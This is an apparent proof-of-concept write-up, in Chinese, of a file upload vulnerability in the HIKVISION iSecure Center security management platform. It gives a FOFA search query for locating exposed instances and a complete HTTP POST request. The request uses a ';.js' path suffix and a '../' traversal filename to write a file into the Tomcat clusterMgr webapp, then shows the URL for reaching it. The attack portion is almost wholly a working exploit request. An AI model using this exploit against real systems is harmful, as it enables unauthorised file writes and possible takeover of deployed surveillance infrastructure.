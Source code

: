 # HIKVISION iSecure Center综合安防管理平台文件上传

## 1.漏洞描述

HIKVISION iSecure Center综合安防管理平台存在文件上传漏洞

## 2.搜索语法

```plain
app="HIKVISION-iSecure-Center"
```

## 3.漏洞复现

```plain
POST /center/api/files;.js HTTP/1.1
Host: 127.0.0.1
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 251
Content-Type: multipart/form-data; boundary=e54e7e5834c8c50e92189959fe7227a4

--e54e7e5834c8c50e92189959fe7227a4
Content-Disposition: form-data; name="file"; filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/hhh.txt"
Content-Type: application/octet-stream

hhh
--e54e7e5834c8c50e92189959fe7227a4--
```

响应包如下：

![image-20240613201208922](.\image-20240613201208922.png)
![image](https://github.com/hardog123/poc-exp/assets/170905460/add33246-0558-43f8-9fb2-68aa120c2a5c)


拼接路径访问：

/clusterMgr/hhh.txt;.js

![image-20240613201305546](.\image-20240613201305546.png)
